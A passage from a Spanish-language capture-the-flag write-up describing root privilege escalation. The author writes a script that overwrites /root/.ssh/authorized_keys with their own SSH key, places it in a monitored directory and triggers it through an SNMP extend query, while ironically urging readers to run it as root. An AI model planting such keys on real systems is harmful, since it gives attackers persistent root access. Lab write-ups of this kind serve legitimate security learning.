 ```bash
ssh-keygen -t rsa
```

Luego creamos el script `check_this.sh`(para nada es malicioso, por si te lo preguntabas, te invito a descargarlo y ejecutarlo como root):

```bash
#!/bin/bash

echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQCn5F6YKC/xjiOdfvGLlq8CAu+6PtKF51x+nIxn55B73EPQ7Ev1aD/UOgtyQMysW7IGqs1XDu+bIGW6SM+JzLnuDokcCGH0NqleXlnYvMQrlWiaM1jiCBcdfl7Y6XqeAsE/jkcE4vyckZpBz1YyY/fE2fAmfRSrQh5Z80aBMhbGWTisfwChnN2c25t2sqTu8+9INf4LmHTntQbsAaRHh0MmTnSqsi/Sv2+8k1i2NvHrlGIDK4LycF5eYZcJk6XrTj02JIu86t/DE6/uXXPPK1qqlFHjYOU/SSZ83GjX++Q51bk7iHEGY4dKq0I2JaZ07TrHGs0qpiSb4Hg+OMelskK+TIeeztm71HcNnMq/LpSpT9k2WqZFwM6u9/wBSYB/JY6P+aZzIF03QX7yvME62BOgdSyMsZ+h8YL6/isi/
/PqsSTiZj8lbgU1+L997WwIelq6/y0hCm0/prl8QDcQdmTGSZofM9+4TOqRpR//7C4kcC131CQosrpQ11XbuEwFFCgT8= root@binlab" > /root/.ssh/authorized_keys
```

Ahora solo faltaría meterlo en /usr/local/monitoring y esperar.
Pues esperé y no pasó nada, así que supongo que necesitará alguna interacción, como volver a ejecutar snmpwalk o algo así.

Si volvemos a ejecutar snmpwalk, pero ahora pasándole `NET-SNMP-EXTEND-MIB::nsExtendObjects` al final para que ejecute scripts(ejem, ejem, /usr/bin/monitor, ejem, ejem) nos debería ejecutar el script, y entonces...

![imagen](https://user-images.githubusercontent.com/71317374/134781459-ff4023d2-b722-4d56-9d4f-1ad5e8cd401b.png)

VAMOOOOOOOOOOOOOOOOOOOOOOOOO HASTA LA COCINAAAAAAAAAAAAAAAAAAAAAAAAAA

VALE. YA. NI MÁS. NI MENOS

Si te ha gustado dame [follow y alguna estrellita, que no te cuesta 😡](https://github.com/binlaab)
